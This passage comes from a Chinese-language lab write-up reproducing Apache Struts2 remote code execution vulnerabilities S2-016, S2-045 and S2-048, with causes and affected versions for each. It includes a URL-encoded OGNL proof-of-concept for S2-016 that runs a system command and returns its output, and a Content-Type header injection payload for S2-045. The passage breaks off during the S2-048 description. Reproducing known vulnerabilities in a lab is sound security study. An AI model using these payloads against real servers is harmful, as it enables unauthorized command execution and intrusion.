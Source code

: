 ## 0X08 S2-016复现

**原理**：问题主要出在对于特殊URL处理中，redirect与redirectAction后面跟上Ognl表达式会被服务器执行。

**影响版本**：Struts 2.0.0 – 2.3.15

**复现**：

Poc：

```
index.action?redirect:%24%7b%23%61%3d%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%50%72%6f%63%65%73%73%42%75%69%6c%64%65%72%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%5b%5d%7b%27%6c%73%27%2c%27%2f%27%7d%29%29%2e%73%74%61%72%74%28%29%2c%23%62%3d%23%61%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%2c%23%63%3d%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%49%6e%70%75%74%53%74%72%65%61%6d%52%65%61%64%65%72%28%23%62%29%2c%23%64%3d%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%42%75%66%66%65%72%65%64%52%65%61%64%65%72%28%23%63%29%2c%23%65%3d%6e%65%77%20%63%68%61%72%5b%35%30%30%30%30%5d%2c%23%64%2e%72%65%61%64%28%23%65%29%2c%23%6d%61%74%74%3d%23%63%6f%6e%74%65%78%74%2e%67%65%74%28%27%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%64%69%73%70%61%74%63%68%65%72%2e%48%74%74%70%53%65%72%76%6c%65%74%52%65%73%70%6f%6e%73%65%27%29%2c%23%6d%61%74%74%2e%67%65%74%57%72%69%74%65%72%28%29%2e%70%72%69%6e%74%6c%6e%28%23%65%29%2c%23%6d%61%74%74%2e%67%65%74%57%72%69%74%65%72%28%29%2e%66%6c%75%73%68%28%29%2c%23%6d%61%74%74%2e%67%65%74%57%72%69%74%65%72%28%29%2e%63%6c%6f%73%65%28%29%7d
```

![image-20201216155214655](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216155214655.png)



## 0X09 S2-045复现

**原理**：在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令。



**影响版本**：

- Struts2.3.5 – 2.3.31
- Struts2.5 – 2.5.10

**复现**：

![image-20201216160154931](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216160154931.png)

Post类型

```
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data
```



## 0X0A S2-048复现

**原理**：Apache Struts 1插件的Apache Struts 2.3.X版本中存在远程代码执行漏洞,该漏洞出现于Struts2的某个类中，该类是为了将Struts1中的Action包装成为Struts2中的Action，以保证Struts2的兼容性。在Struts2中的Struts1插件启用的情况下，远程攻击者可通过使用恶意字段值，构造特定的输入，发送到ActionMessage类中，从而导致任意命令执行，进而获取目标主机系统权限
